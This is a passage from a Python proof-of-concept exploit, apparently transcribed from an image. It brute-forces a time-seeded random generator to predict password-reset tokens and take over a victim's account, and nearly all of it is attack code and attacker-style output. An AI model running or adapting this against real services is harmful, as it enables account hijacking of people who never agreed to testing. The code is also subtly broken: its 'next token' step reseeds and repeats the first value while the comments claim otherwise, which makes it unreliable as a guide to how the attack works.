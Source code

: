 ```python
    # We'll search a window of +/- 5 seconds around the recorded start_time_ns.
    # The granularity of the search (e.g., 1000 for microseconds) depends on system clock resolution.

    # For demonstration, we'll just show how a correct seed leads to the correct sequence.
    # In a real attack, you'd iterate and compare `predicted_token` with the `observed_token`.

    observed_token = "123456" # Replace with an actual token observed from the vulnerable server
    found_seed = None
    search_window_seconds = 5

    print(f"\n[*] Attempting to brute-force seeds around {start_time_ns} ns...")

    # Iterate through potential seeds. The range needs to be adjusted based on system clock granularity.
    # Here, we'll try a small range around the exact time of the request for demonstration.
    for offset_ns in range(-search_window_seconds * 1_000_000_000, search_window_seconds * 1_000_000_000, 1_000_000): # Check every millisecond
        seed_candidate = start_time_ns + offset_ns

        # Generate the first number with this seed
        predicted_first_token = generate_insecure_token_py(seed_candidate)

        # If this matches the observed token, we've found the seed!
        if predicted_first_token == observed_token:
            found_seed = seed_candidate
            print(f"[+] Found potential seed: {found_seed} ns")

            # Now, generate the *next* token using the same seed
            # In Go's math/rand, calling rand.Intn() again advances the state.
            # In Python's random, after seeding, subsequent calls to random.randint() continue the sequence.
            predicted_next_token = generate_insecure_token_py(found_seed) # Call again to get next in sequence
            print(f"[+] Predicted next token: {predicted_next_token}")

            # --- EXPLOITATION PHASE ---
            # With the predicted_next_token, the attacker can now attempt to reset the victim's password
            # by submitting this token to the password reset confirmation endpoint.
            # This part is conceptual as the confirmation endpoint is not implemented in the vulnerable server.
            print(f"[+] Attacker would now use token '{predicted_next_token}' to reset {TARGET_EMAIL}'s password.")
            return

    print("[-] Could not find the seed within the search window. Adjust window or granularity.")

if __name__ == "__main__":
    exploit_insecure_rand()

```
